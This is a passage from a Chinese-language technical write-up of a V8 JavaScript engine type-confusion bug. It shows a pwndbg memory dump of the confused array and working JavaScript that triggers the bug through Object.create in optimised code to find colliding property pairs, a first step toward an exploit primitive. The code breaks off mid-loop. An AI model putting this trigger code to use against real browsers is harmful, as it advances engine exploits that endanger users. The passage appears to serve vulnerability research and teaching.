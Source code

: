 
进行优化，触发漏洞后，按之前pi的固定偏移进行访问，得到的键值对是混乱的，但可以找到一对属性是相互对应，如下，访问p6，其实是按之前p6的偏移进行访问，此时填充的是p39的值，造成的影响就是访问p6其实访问的是p39。

```c
pwndbg> job 0x281c5060f511
0x281c5060f511: [JSArray]
 - map: 0x29e5d3984fa1 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x283b0ed93b61 <JSArray[0]>
 - elements: 0x281c5060f381 <FixedArray[48]> [PACKED_ELEMENTS]
 - length: 48
 - properties: 0x1a4826f82cf1 <FixedArray[0]> {
    #length: 0x2b92c37952c1 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x281c5060f381 <FixedArray[48]> {
           0: 49
           1: 0
           2: 128
           3: 50
           4: 0
           5: 0x283b0eda7239 <String[3]: p39>
           6: -39
           7: 10736
        8-16: 0x1a4826f825a1 <undefined>
			……
```

查找属性对的代码如下：

```javascript
function makeObj(propertyValues) {
    let o = {inline: 0x1234};
    for (let i = 0; i < obj_len; i++) {
        Object.defineProperty(o, 'p' + i, {
            writable: true,
            value: propertyValues[i]
        });
    }
    return o;
}


function findoverlap(){
	let propertyNames = [];
	for(let i=0; i < obj_len; i++){
		propertyNames[i] = 'p' + i;
	}

	eval(`
		function hax(o){
			o.a;
			this.Object.create(o);
			${propertyNames.map((p) => `let ${p}=o.${p};`).join('\n')}
			return [${propertyNames.join(', ')}];
		}
	`);
	let p_Values = [];
	for(let i=1; i< obj_len; i++){
		p_Values[i] = -i;
	}
	for(let i=0; i< 10000; i++){
		let objs = makeObj(p_Values);
		let r = hax(objs);
		for(let j=1; j < r.length; j++){
			if(j != -r[j] && r[j] < 0 && r[j] > -obj_len){
				console.log('p'+ j +' & p' + -(r[j]) +" are collision in directory");	
```